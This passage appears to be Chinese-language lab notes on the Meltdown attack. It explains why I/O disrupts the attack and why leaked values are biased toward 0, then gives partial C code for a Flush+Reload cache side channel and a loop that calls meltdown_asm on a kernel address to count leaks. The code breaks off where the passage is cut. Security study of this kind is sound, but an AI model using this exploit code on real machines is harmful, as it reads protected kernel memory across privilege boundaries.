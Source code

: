> 原因是：这种类型的漏洞对执行指令的速度要求比较高，I/O指令时长很长，乱序执行那一块就不一定会被打乱了（可能就会先进行check）；或者说I/O过程比较复杂，可能会影响到CPU之前缓存的数据。

##### ⭐

> 遇到的第二个问题是为什么发生错误hit的时候总是Hit 0：
>
> 查到的原因是：
>
> <img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012311180.png" alt="image-20220409225657433" style="zoom:80%;" />
>
> **Inherent bias towards 0.** 
>
> While CPUs generally stall if a value is not available during an out-of-order load operation, CPUs might continue with the out-of-order execution by assuming a value for the load. 
>
> We observed that the illegal memory load in our Meltdown implementation (line 4 in Listing 2) often returns a ‘0’, which can be clearly observed when implemented using an add instruction instead of the mov. The reason for this bias to ‘0’ may either be that the memory load is masked out by a failed permission check, or a speculated value because the data of the stalled load is not available yet.

再修改函数写一个循环统计泄露成功的次数：

```C
// 增加返回值
int reloadSideChannel()
{
  int junk = 0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for (i = 0; i < 256; i++)
  {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD)
    {
      // printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
      printf("The Secret = %d.\n", i);
      return 1;		
    }
  }
  return 0;
}

// 修改main函数
int main()
{
  // ......
  int cnt = 0;
  for (int i = 0; i < 100; i++)
  {
    // FLUSH the probing array
    flushSideChannel();

    int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.

    if (sigsetjmp(jbuf, 1) == 0)
    {
      meltdown_asm(0xf90fc000);
    }

    // RELOAD the probing array
```